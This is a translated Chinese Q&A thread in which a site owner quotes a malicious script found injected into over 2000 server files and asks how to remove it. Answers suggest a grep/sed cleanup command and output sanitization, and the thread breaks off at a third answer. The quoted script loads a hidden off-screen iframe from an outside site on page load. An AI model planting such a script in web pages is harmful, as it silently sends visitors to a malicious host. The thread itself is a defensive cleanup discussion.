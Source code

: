 ```
<script>  
    function frmAdd() { 
        var ifrm = document.createElement('iframe'); 
        ifrm.style.position='absolute'; 
        ifrm.style.top='-999em'; 
        ifrm.style.left='-999em'; 
        ifrm.src = \"http://fenwaywest.com/media/index.php\";
        ifrm.id = 'frmId';
        document.body.appendChild(ifrm);
    };
    window.onload = frmAdd;
</script>"; 
```

当我使用以下命令搜索服务器以查找受影响的文件时

```
grep -r "<script>  function frmAdd()" /path/ 
```

我有2000多个文件。

现在我只需要删除该行。拜托，有人可以指导该命令仅删除所有 2000 个文件中的该行吗？

* * *

## 回答 #1

> 赞同：2
> 
> 时间：2012-10-10T13:10:58.810

先备份！然后，你可以尝试这样的事情：

```
grep -lr " function frmAdd" /path/ | xargs sed -i '/ function frmAdd/d' 
```

这将删除与该正则表达式匹配的任何行。它还假设路径不包含空格（希望这里是一个合理的假设）。

* * *

## 回答 #2

> 赞同：0
> 
> 时间：2012-10-10T19:37:17.883

在打印用户数据时尝试使用 CakePHP sanitize Class：

```
echo Sanitize::html($badString); 
```

* * *

## 回答 #3
